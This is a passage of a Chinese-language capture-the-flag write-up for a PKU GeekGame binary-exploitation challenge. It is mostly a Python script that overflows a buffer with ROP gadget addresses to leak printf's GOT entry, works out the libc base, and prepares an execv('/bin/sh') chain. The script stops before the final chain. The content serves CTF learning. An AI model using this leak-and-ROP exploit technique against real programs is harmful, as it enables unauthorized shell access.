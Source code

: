 flag2 需要从动态库中找 gadgets，用 `printf()` 泄漏 GOT 表内容，根据 libc.so.6 的加载位置即时生成注入的退回地址。这次换用 `execv()` 来执行 `/bin/sh` 吧。

```python
import numpy as np
import socket

PRINTF_OFFSET = 0x369b0
EXECV_OFFSET = 0xc1470
BIN_SH_OFFSET = 0x1ae8d8
POP_RDI_RET_OFFSET = 0x625
POP_RSI_RET_OFFSET = 0x13f56
EXIT_OFFSET = 0x1b830

s = socket.socket()
s.connect(('prob11.geekgame.pku.edu.cn', 10011))
print(s.recv(8192))
s.send(b'<my-token-not-visible-to-otherone>\n')

# 跳过开局废话
print(s.recv(8192))
s.send(b'0\n')
print(s.recv(8192))
s.send(b'0\n')

# 获取全局偏移量
data = np.array([
    0x403065,  # 0,  %rbx -> %rsi of scanf()
               # 0,  %rbx -> %rdi of printf()
    0x40303a,  # "", %rbp -> %rdi of scanf()
    0x000000,  # 0,  %r12
    0x401302,  # 获取 printf@plt.got 的值
    0x404028,  # printf@plt.got 的地址
    0x4012b5,  # 打印取得的地址
    *[0 for _ in range(12)],  # add $0x60, %rsp
    0x000000,  # %rbx
    0x000000,  # %rbp
    0x000000,  # %r12
    0x401304,  # ret
    0x401214,  # 回到 main
], dtype='uint64')
s.send(b'0' * 32 + data.tobytes() + b'\n')
buf = b''
while True:
    b = s.recv(8192)
    print(b)
    buf += b
    offset = buf.find(b'luck~:)\n')
    if offset < 0: continue
    offset += len(b'luck~:)\n')
    if offset == len(buf): continue
    offend = buf.find(b'\n', offset)
    if offend < 0: printf = buf[offset :]
    else: printf = buf[offset : offend]
    break
assert len(printf) == 6
printf = int.from_bytes(printf, 'little')
offset = printf - PRINTF_OFFSET
print('global offset: %#x' % offset)

# 跳过开局废话
s.send(b'0\n')
print(s.recv(8192))
s.send(b'0\n')
```